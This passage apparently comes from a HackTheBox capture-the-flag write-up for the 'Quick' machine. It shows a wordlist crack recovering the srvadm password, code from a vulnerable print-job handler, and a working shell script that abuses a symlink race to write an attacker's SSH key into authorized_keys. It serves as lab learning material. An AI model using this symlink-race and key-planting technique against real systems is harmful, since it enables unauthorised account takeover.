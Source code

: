 Then let's call it with the rockyou list:

```shell-session
╭─zoey@nomadic ~/htb/quick ‹master*›
╰─$ php crack-srvadm-pw.php /usr/share/wordlists/rockyou.txt
Tries 100000, sagar
Tries 200000, judyjudy
Tries 300000, mcandrew
Tries 400000, my boys
Tries 500000, johnston2
Tries 600000, plurplur
Tries 700000, alexemo
Tries 800000, saulm
Tries 900000, katey1412
Tries 1000000, budakid1
Tries 1100000, 224467
yl51pbx
```

Then we can login with `srvadm@quick.htb:yl51pbx`.

### Quick POS Print Server (owning srvadm)

Investigating the site we see there's an ability to add printers and send jobs to them. If we take a look at the code in `job.php` it looks like it's vulnerable:

```php
if($_SESSION["loggedin"])
{
	if(isset($_POST["submit"]))
	{
		$title=$_POST["title"];
		$file = date("Y-m-d_H:i:s");
		file_put_contents("/var/www/jobs/".$file,$_POST["desc"]);
		chmod("/var/www/printer/jobs/".$file,"0777");
		$stmt=$conn->prepare("select ip,port from jobs");
		$stmt->execute();
		$result=$stmt->get_result();
		if($result->num_rows > 0)
		{
```

The script calls `file_put_contents`, writing the `desc` value into it. The `/var/www/jobs` directory is world-writeable so we can create a symlink into whatever
file we want, and have the server write what we want into it. Let's write a public ssh key into `/home/srvadm/.ssh/authorized_keys`. We'll need to create
a script to create the symlink and then make the call to the server quickly since the filename is based on the time, and includes the seconds value:

```bash
#!/bin/sh
filename=$(php -r "echo date('Y-m-d_H:i:s');")
ln -s /home/srvadm/.ssh/authorized_keys "${filename}"
curl 'http://localhost/job.php' -H 'Host: printerv2.quick.htb' -H "Cookie: PHPSESSID=${1}" --data "title=title&desc=${2}&submit=yup" & > /dev/null 2>&1
```
